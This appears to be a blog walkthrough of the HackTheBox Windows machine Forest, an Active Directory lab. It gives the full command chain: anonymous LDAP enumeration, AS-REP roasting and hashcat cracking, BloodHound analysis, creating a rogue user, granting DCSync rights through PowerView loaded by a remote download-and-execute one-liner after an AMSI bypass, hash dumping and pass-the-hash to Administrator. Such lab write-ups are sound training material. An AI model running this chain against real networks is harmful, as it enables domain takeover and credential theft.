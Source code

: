 ```yaml
---
title: Forest @ HackTheBox  
date: 2025-04-14 13:00:00 
categories: [HTB Machines,Windows Machines]
tags: [ad,asreproast,ad,bloodhound,dcsync]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post2/forest.png
---
```

**Hello** This is a very simple walkthrough for the windows machine Forest. In this walkthrough we'll be see some basic AD enumeration and Exploitation, without further ado let's get into it 
## Enumeration
### Nmap
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
we can see from the scan that this machine is a domain controller for the domain htb.local next we’ll enumerate LDAP and look for anonymous bind 
> dont forget to add the domain to /etc/hosts file.
{: .prompt-tip }
### LDAP Enumeration
we’ll try enumerating ldap using the cli command : ldapsearch 
```shell
ldapsearch -H ldap://10.10.10.161 -x -b "dc=htb,dc=local"
```
the -x flag specifies using anonymous authentication, while -b denotes the basedn.
seems ldap anonymous bind is enabled, next we’ll do some digging to find extra info such as user and groups.
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U 
```
the -U used is for enumerating users, we could attempt to password spray all the users found but before doing so lets dig a little more in the ObjectClass of ldap, use  `--custom` flag withe `ObjectClass=*` argument to retrieve all :
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "ObjectClass=*"
```
this query returned 312 results among them was an interesting user called `svc-alfresco` a few online search about this revealed that this account requires disabling pre-auth in kerberos, so that means the account is vulnerable to `AS_REProast`. 
This attack levrages the disabling of pre-authentication in kerberos to request a TGT from the KDC,meaning that any attacker knowing only the username can get a segment of the tgt that is encrypted with the victim’s password hash, after that the attacker can perform offline password crack to get the plaintext password.
## AS_REProast → Foothold 
for this we’ll use the script `GetNPUsers.py` from **Impacket** :
```shell
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 
```
ok now since we've got the encrypted tgt ticket with the svc-alfresco password’s hash, now let's try to crack that, for this i'll use hashcat :
```shell
hashcat -m 18200 tgt /usr/share/wordlist/rockyou.txt
```
18200 represents the code for kerberos ASRep hash.

now that we get the password let's try to login to the account using **WinRM** service (reminder port 5985 was open), for this we’ll use evil-winrm :
```shell
evil-winrm -i 10.10.10.161 -u svc-alfresco -p "s3rvice" 
```
## PrivEsc
now since we gained a foothold inside the active directory its time to unleash the bloodhound and enumerate, i like to use bloodhound-python as my ingestor if you are comfortable with sharphound feel free to use it :
```shell
bloodhound-python -d htb.local -usvc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161 
```
next crate a neo4j instance and start bloodhound then upload the json files retrieved from the ingestor, after that search for the user svc-alfresco and mark it as owned. A quick review of the account group membership show that the user svc-alfresco is a member of 9 group
![screen_1](/./media/post2/bloodhound_1.png)
one in particular is interessting, the **Account Operators Group**, according to microsoft the account operators group members have the right to create users and add them to groups.

so from there lets see if we can find a high value target we can append a rogue user to and exploit it. go to analysis and select Shortest **Path to High Value targets**.
![screen_2](/./media/post2/bloodhound_2.png)

it looks like the exchange windows group has **writeDacl** rights on the domain and this could be leveragrd to grant the user any rights including **DCSync** right.

For this we’ll create another user called **jason** with a password of **psswd123** and then add him to 2 groups exchange windwos permissions and remote management users.
```powershell
net user jason psswd123 /add /domain
net group "Exchange Windows Permissions" jason /add
net localgroup "Remote Management Users" jason /add
```
The commands above create a new user named john and add him to the required groups. Next,
download the **PowerView** script and import it into the current session.

before loading the script we should use the **bypassAMSI** option in the menu.

Next, we can use the **Add-ObjectACL** with john's credentials, and give him **DCSync** rights.
```powershell
iex(new-object net.webclient).downloadstring('http://$IP:8090/PowerView.ps1')
$SecPassword = Convertto-SecureString 'psswd123' -AsPlainText -force
$Cred = New-Object System.Management.Automation.PSCredential('htb\jason', $SecPassword)
Add-objectACL -PrincipalIdentity jason -Credential $Cred -Rights DCSync
````
The **secretsdump.py** script from Impacket can now be run as john, and used to reveal the NTLM
hashes for all domain users.
```shell
secretsdump.py htb/jason@10.10.10.161
```
now lets try to perform some **pass-the-hash** technique to acces the admin account, for this we’ll use **psexec.py** script from impacket :
```shell
psexec.py htb/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
## Conclusion
This we'll be the end of this walkthrough, as technique for solidifying my knowledge i like to list all the new things i've learnt in this machine. Since i am new to AD envirement i learned a lot of things in this box :
- **LDAP** Anonymous bind Enumeration (ldapsearch,windapsearch).
- **AS_REProast** Attack.
- **Bloodhound** Basic Enumeration.
- **DCSync** Attack
